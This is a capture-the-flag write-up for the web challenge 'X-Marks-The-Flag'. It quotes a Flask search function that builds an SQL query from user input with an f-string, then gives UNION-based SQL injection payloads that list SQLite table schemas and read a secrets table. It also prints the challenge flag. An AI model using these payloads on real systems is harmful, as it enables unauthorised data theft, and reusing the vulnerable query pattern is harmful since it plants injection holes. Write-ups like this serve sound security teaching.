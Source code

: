 # Web: X-Marks-The-Flag

**Author**: [redtrib3](https://github.com/redtrib3)<br>
**Points**: 250<br>
**Hint(s)**: None<br>
**Flag**: `xploit{uni0nize_th3_tabl3s_0verthrow_th3_sys4dm1ns}`<br>

**Challenge description:**
```
We built a brand new exploit search engine, so you don’t have to waste time searching ExploitDB.

Note: No automated tools are required to solve this challenge.

Challenge Link:
http://xploitctf.live:64298/
```

## Solve

We are given a search engine type of application named 'Xpl0it Search', on searching anything such as a letter 'a', it returns every exploits with 'a' in its title.
we can also change the search parameter to - 'Title', 'Id', 'Date', 'Author', 'Type', 'Platform'.

If you notice the scroller on top of the webpage, there is a text which says " 👆 Visit /source for our source code", where /source is a hyperlink that gives us the actual source code of the website.
Read through the source code to understand how the flask application works, the vulnerability lies in one of the database utils 
that is made to query the database using two parameters 'keyword' and 'by'. These parameters are user inputs directly taken from `by` and `x` parameters in `/search`.
The user input is directly put into the sql query, obviously resulting in an SQL INJECTION vulnerability.

**Vulnerable code:**
```python3
        if by == 'title':
            query = f"SELECT * FROM exploits WHERE title LIKE '%{keyword}%'" # keyword is 'x' parameter
```

Step by step exploitation:
1. Find the number of columns reflected using the following injection query:
    `%' union select 1,2,3,4,5,6 -- -`
2. The above query is successful, since 6 columns are returned, we can use any one column to exfilterate data.
3. From the source code we know that the database is sqlite, so here is the payload to list table schemas.
`%' union select 1,2,3,4,5,sql from sqlite_master -- -`

Output:
```
CREATE TABLE company_secrets ( id INTEGER NOT NULL, secret VARCHAR NOT NULL, PRIMARY KEY (id) )
CREATE TABLE exploits ( id INTEGER NOT NULL, title VARCHAR NOT NULL, date DATE NOT NULL, author VARCHAR NOT NULL, type VARCHAR NOT NULL, platform VARCHAR NOT NULL, PRIMARY KEY (id) )
```
4. The company_secrets table is interesting, we can easily print the secret now:
`%' union select 1,2,3,4,5,secret from company_secrets`

5. We get the flag!
